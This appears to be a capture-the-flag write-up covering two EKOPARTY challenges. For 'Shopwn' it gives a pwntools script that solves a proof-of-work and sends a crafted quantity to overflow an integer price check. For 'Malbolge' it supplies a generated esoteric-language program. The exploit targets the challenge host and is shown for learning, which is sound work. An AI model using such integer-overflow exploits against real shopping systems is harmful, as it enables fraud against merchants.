 ## Shopwn
Flag: _EKO{dude_where_is_my_leak?}_

This challenge is similar to previous one. They fix something in code and we can not input a negative value. I think about integer overflow. 
``` python
from pwn import *
import hashlib
HOST = 'shopping.ctf.site'
PORT = 22222
conn = remote(HOST,PORT)
print conn.recvuntil("Enter a raw string (max. 32 bytes) that meets the following condition: hex(sha1(input))[0:6] == ")
proof = conn.recvuntil('\n')
proof = proof.strip()
i = 0
while True:
    h = hashlib.sha1()
    h.update(str(i))
    digest = h.hexdigest()
    if digest[0:6] == proof:
        conn.send(str(i)+'\n')
        break
    i += 1

print conn.recvuntil('?')
conn.send('2\n')
print conn.recvuntil('?')
conn.send('419496729\n') # 419496729 * 20 = 8389934580 = 0x1F4143DF4 --> integer overflow --> 0xF4143DF4 = -200000012
print conn.recvuntil('?')
conn.send('4\n')
print conn.recvuntil('?')
conn.send('1\n')
conn.interactive()
```

## Malbolge
Flag: _EKO{0nly4nother3soteric1anguage}_

An esoteric programming language: [Malbolge](https://en.wikipedia.org/wiki/Malbolge)

Another source of esolang here: https://hub.docker.com/r/hakatashi/esolang-box/ 

```
nc malbolge.ctf.site 40111
Send a malbolge code that print: 'Welcome to EKOPARTY!' (without single quotes)
```

I found and very simple and nice Malbolge tool on internet:  http://zb3.me/malbolge-tools/#generator

I just input the following string and get flag. Nothing to do.
```
D'`_q^8J}l{jWx6SARQP*NLn&%7ZFXDgUAzy>P<{)9[Zp6WVlqpih.ONjiha'H^]\[Z~^W\[ZYRvVOTSLp3INGFjJ,BAe?'=<;_?8=<;4X216543,P0p(-,+*#G'&f|{"y?}|ut:[qvutml2poQPlejc)gfedFb[!_X]V[ZSRvP8TSLpJ2NMLEDhU
```
